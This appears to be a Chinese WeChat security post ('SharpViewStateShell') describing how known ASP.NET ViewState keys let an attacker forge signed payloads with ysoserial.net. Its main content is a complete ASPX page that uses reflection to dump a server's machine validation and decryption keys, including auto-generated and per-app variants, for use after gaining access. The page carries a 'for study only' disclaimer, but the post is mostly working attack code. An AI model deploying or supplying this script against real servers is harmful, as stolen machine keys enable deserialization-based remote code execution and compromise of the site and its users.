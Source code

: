 #  SharpViewStateShell v1.0.2

原创 Rcoil [ RowTeam ](javascript:void\(0\);)

**RowTeam** ![]()

微信号 RowTeam

功能介绍 没有什么好介绍的消遣地

____

___发表于_

收录于合集

  

只要知道 ASP.NET 中关于 ViewState 的 `ValidationKey` 和 `ValidationAlg`
，那么我们根据它反序列化函数中的判断，只需要从 ysoserial.net 扣取对应的签名过程即可。

获取  `ValidationKey` 和 `ValidationAlg` 的脚本为：  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script runat="server" language="c#" CODEPAGE="65001">  
        public void GetAutoMachineKeys()    {        var netVersion = Microsoft.Win32.Registry.GetValue("HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\NET Framework Setup\\NDP\\v4\\Full\\", "Version", Microsoft.Win32.RegistryValueKind.ExpandString);         if(netVersion!=null)             Response.Write("<b>NetVersion: </b>" + netVersion);             Response.Write("<br/><hr/>");        // ==========================================================================        var systemWebAsm = System.Reflection.Assembly.Load("System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a");        var machineKeySectionType = systemWebAsm.GetType("System.Web.Configuration.MachineKeySection");        var getApplicationConfigMethod = machineKeySectionType.GetMethod("GetApplicationConfig", System.Reflection.BindingFlags.Static | System.Reflection.BindingFlags.NonPublic);        var config = (System.Web.Configuration.MachineKeySection)getApplicationConfigMethod.Invoke(null, new object[0]);        Response.Write("<b>ValidationKey:</b> "+config.ValidationKey);        Response.Write("<br/>");        Response.Write("<b>ValidationAlg:</b> "+ config.Validation);        Response.Write("<br/>");        Response.Write("<b>DecryptionKey:</b> "+ config.DecryptionKey);        Response.Write("<br/>");        Response.Write("<b>DecryptionAlg:</b> "+ config.Decryption);        Response.Write("<br/>");        Response.Write("<b>CompatibilityMode:</b> "+config.CompatibilityMode);         Response.Write("<br/><hr/>");        // ==========================================================================        var typeMachineKeyMasterKeyProvider = systemWebAsm.GetType("System.Web.Security.Cryptography.MachineKeyMasterKeyProvider");        var instance = typeMachineKeyMasterKeyProvider.Assembly.CreateInstance(            typeMachineKeyMasterKeyProvider.FullName, false,            System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.NonPublic,            null, new object[] { config, null, null, null, null }, null, null);        var validationKey = typeMachineKeyMasterKeyProvider.GetMethod("GetValidationKey").Invoke(instance, new object[0]);        byte[] _validationKey = (byte[])validationKey.GetType().GetMethod("GetKeyMaterial").Invoke(validationKey, new object[0]);        var encryptionKey = typeMachineKeyMasterKeyProvider.GetMethod("GetEncryptionKey").Invoke(instance, new object[0]);        byte[] _decryptionKey = (byte[])validationKey.GetType().GetMethod("GetKeyMaterial").Invoke(encryptionKey, new object[0]);        // ==========================================================================        Response.Write("<br/><b>ASP.NET 4.0 and below:</b><br/>");        byte[] autogenKeys = (byte[])typeof(HttpRuntime).GetField("s_autogenKeys", System.Reflection.BindingFlags.NonPublic | System.Reflection.BindingFlags.Static).GetValue(null);        int validationKeySize = 64;        int decryptionKeySize = 24;        byte[] validationKeyAuto = new byte[validationKeySize];        byte[] decryptionKeyAuto = new byte[decryptionKeySize];        System.Buffer.BlockCopy(autogenKeys, 0, validationKeyAuto, 0, validationKeySize);        System.Buffer.BlockCopy(autogenKeys, validationKeySize, decryptionKeyAuto, 0, decryptionKeySize);        string appName = HttpRuntime.AppDomainAppVirtualPath;        string appId = HttpRuntime.AppDomainAppId;        Response.Write("<br/>");        Response.Write("<b>appName:</b> "+appName);        Response.Write("<br/>");        Response.Write("<b>appId:</b> "+appId);        Response.Write("<br/>");        Response.Write("<b>initial validationKey (not useful for direct use):</b> ");        Response.Write(BitConverter.ToString(validationKeyAuto).Replace("-", string.Empty));        Response.Write("<br/>");        Response.Write("<b>initial decryptionKey (not useful for direct use):</b> ");        Response.Write(BitConverter.ToString(decryptionKeyAuto).Replace("-", string.Empty));        Response.Write("<br/>");  
            byte[] _validationKeyAutoAppSpecific = validationKeyAuto.ToArray();        int dwCode3 = StringComparer.InvariantCultureIgnoreCase.GetHashCode(appName);        _validationKeyAutoAppSpecific[0] = (byte)(dwCode3 & 0xff);        _validationKeyAutoAppSpecific[1] = (byte)((dwCode3 & 0xff00) >> 8);        _validationKeyAutoAppSpecific[2] = (byte)((dwCode3 & 0xff0000) >> 16);        _validationKeyAutoAppSpecific[3] = (byte)((dwCode3 & 0xff000000) >> 24);        Response.Write("<b>App specific ValidationKey (when uses IsolateApps):</b> ");        Response.Write(BitConverter.ToString(_validationKeyAutoAppSpecific).Replace("-", string.Empty));        Response.Write("<br/>");  
            byte[] _validationKeyAutoAppIdSpecific = validationKeyAuto.ToArray();        int dwCode4 = StringComparer.InvariantCultureIgnoreCase.GetHashCode(appId);        _validationKeyAutoAppIdSpecific[4] = (byte)(dwCode4 & 0xff);        _validationKeyAutoAppIdSpecific[5] = (byte)((dwCode4 & 0xff00) >> 8);        _validationKeyAutoAppIdSpecific[6] = (byte)((dwCode4 & 0xff0000) >> 16);        _validationKeyAutoAppIdSpecific[7] = (byte)((dwCode4 & 0xff000000) >> 24);        Response.Write("<b>AppId Auto specific ValidationKey (when uses IsolateByAppId):</b> ");        Response.Write(BitConverter.ToString(_validationKeyAutoAppIdSpecific).Replace("-", string.Empty));        Response.Write("<br/>");  
            byte[] _decryptionKeyAutoAutoAppSpecific = decryptionKeyAuto.ToArray();        _decryptionKeyAutoAutoAppSpecific[0] = (byte)(dwCode3 & 0xff);        _decryptionKeyAutoAutoAppSpecific[1] = (byte)((dwCode3 & 0xff00) >> 8);        _decryptionKeyAutoAutoAppSpecific[2] = (byte)((dwCode3 & 0xff0000) >> 16);        _decryptionKeyAutoAutoAppSpecific[3] = (byte)((dwCode3 & 0xff000000) >> 24);        Response.Write("<b>App specific DecryptionKey (when uses IsolateApps):</b> ");        Response.Write(BitConverter.ToString(_decryptionKeyAutoAutoAppSpecific).Replace("-", string.Empty));        Response.Write("<br/>");  
            byte[] _decryptionKeyAutoAutoAppIdSpecific = decryptionKeyAuto.ToArray();        _decryptionKeyAutoAutoAppIdSpecific[4] = (byte)(dwCode4 & 0xff);        _decryptionKeyAutoAutoAppIdSpecific[5] = (byte)((dwCode4 & 0xff00) >> 8);        _decryptionKeyAutoAutoAppIdSpecific[6] = (byte)((dwCode4 & 0xff0000) >> 16);        _decryptionKeyAutoAutoAppIdSpecific[7] = (byte)((dwCode4 & 0xff000000) >> 24);        Response.Write("<b>AppId Auto specific DecryptionKey (when uses IsolateByAppId):</b> ");        Response.Write(BitConverter.ToString(_decryptionKeyAutoAutoAppIdSpecific).Replace("-", string.Empty));        Response.Write("<br/><hr/>");        // ==========================================================================        Response.Write("<br/><b>ASP.NET 4.5 and above:</b><br/>");        Response.Write("<br/>");        Response.Write("<b>validationAlg:</b> "+config.Validation);        Response.Write("<br/>");        Response.Write("<b>validationKey:</b> "+BitConverter.ToString(_validationKey).Replace("-", string.Empty));        Response.Write("<br/>");        Response.Write("<b>decryptionAlg:</b> "+config.Decryption);        Response.Write("<br/>");        Response.Write("<b>decryptionKey:</b> "+BitConverter.ToString(_decryptionKey).Replace("-", string.Empty));        Response.Write("<br/><hr/>");    }  
        public void Page_load()    {        Response.ContentEncoding = System.Text.Encoding.Default;        Response.Write("<p style='color:#ff0000;text-align:center;'>获取 .NET 框架的机器密钥</p>");        Response.Write("<p>1. 本程序仅供实验学习 ASP.NET ViewState，请勿违法滥用！</p>");        Response.Write("<p>2. 适用场景：获取 .NET 框架权限后均适用！</p>");        Response.Write("<p>3. 公众号：RowTeam</p>");        Response.Write("<br/><hr/>");        GetAutoMachineKeys();    }</script>

  

全程只靠图。  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230401182314.png)

  

  

效果如下所示：  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230401182315.png)

  

  

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

